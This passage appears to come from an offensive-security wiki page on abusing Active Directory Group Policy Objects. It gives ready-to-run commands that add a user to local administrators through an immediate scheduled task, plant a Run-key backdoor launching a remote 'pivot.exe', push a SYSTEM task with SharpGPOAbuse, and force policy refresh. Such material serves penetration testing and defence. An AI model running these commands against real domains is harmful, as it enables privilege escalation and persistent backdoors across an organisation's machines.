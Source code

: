 **Policies Applied to a Given Computer**: To see what policies are applied to a particular computer, commands like `Get-DomainGPO` can be utilized.

**OUs with a Given Policy Applied**: Identifying organizational units (OUs) affected by a given policy can be done using `Get-DomainOU`.

You can also use the tool [**GPOHound**](https://github.com/cogiceo/GPOHound) to enumerate GPOs and find issues in them.

### Abuse GPO - New-GPOImmediateTask

Misconfigured GPOs can be exploited to execute code, for example, by creating an immediate scheduled task. This can be done to add a user to the local administrators group on affected machines, significantly elevating privileges:

```bash
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

### GroupPolicy module - Abuse GPO

The GroupPolicy module, if installed, allows for the creation and linking of new GPOs, and setting preferences such as registry values to execute backdoors on affected computers. This method requires the GPO to be updated and a user to log in to the computer for execution:

```bash
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

### SharpGPOAbuse - Abuse GPO

SharpGPOAbuse offers a method to abuse existing GPOs by adding tasks or modifying settings without the need to create new GPOs. This tool requires modification of existing GPOs or using RSAT tools to create new ones before applying changes:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Force Policy Update

GPO updates typically occur around every 90 minutes. To expedite this process, especially after implementing a change, the `gpupdate /force` command can be used on the target computer to force an immediate policy update. This command ensures that any modifications to GPOs are applied without waiting for the next automatic update cycle.

### Under the Hood

Upon inspection of the Scheduled Tasks for a given GPO, like the `Misconfigured Policy`, the addition of tasks such as `evilTask` can be confirmed. These tasks are created through scripts or command-line tools aiming to modify system behavior or escalate privileges.
